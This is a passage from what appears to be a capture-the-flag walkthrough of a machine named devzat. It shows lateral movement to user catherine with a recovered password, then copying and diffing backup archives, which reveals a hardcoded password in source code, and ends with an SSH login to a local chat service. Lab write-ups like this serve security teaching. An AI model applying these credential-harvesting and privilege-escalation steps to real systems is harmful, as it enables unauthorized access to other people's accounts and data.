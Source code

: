 ```sql
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```
With three users we have catherine and her password!
# Catherine
For some reason I couldn't ssh in to her account, so lets just use su.
```bash
patrick@devzat:~$ su catherine
Password: 
catherine@devzat:/home/patrick$ whoami
catherine
catherine@devzat:/home/patrick$ 
catherine@devzat:/home/patrick$ cd /home/catherine/
catherine@devzat:/home/catherine$ls
user.txt
catherine@devzat:/home/catherine$
```
Perfect, now you can grab the userflag.
# Root-ish
So here is the funny part, we know the password we need is in the backup files, so lets just get them and check it out. Maybe that is enough to get root.
```
catherine@devzat:/dev/shm$ cp /var/backup/devzat-dev* .
catherine@devzat:/dev/shm$ cp /var/backup/devzat-main* .
catherine@devzat:/dev/shm$ unzip devzat-dev*
catherine@devzat:/dev/shm$ unzip devzat-main*
catherine@devzat:/dev/shm$ diff dev main
diff dev/allusers.json main/allusers.json 
1c1,3                        
< {}                        
---                         
> {                       
>    "eff8e7ca506627fe15dda5e0e512fcaad70b6d520f37cc76597fdb4f2d83a1a3": "\u001b[38;5;214mtest\u001b[39m" 
> } 
diff dev/commands.go main/commands.go 
4d3
<       "bufio"
<       // Check my secure password
<       if pass != "CeilingCatStillAThingIn2021?" {
<               u.system("You did provide the wrong password")
<               return
<       }
```
Awesome, now lets test it out
```
catherine@devzat:~$ ssh patrick@127.0.0.1 -p 8443
admin: Hey patrick, you there?
patrick: Sure, shoot boss!
admin: So I setup the influxdb 1.7.5 for you as we discussed earlier in business meeting.
patrick: Cool 👍
admin: Be sure to check it out and see if it works for you, will ya?
patrick: Yes, sure. Am on it!
devbot: admin has left the chat
```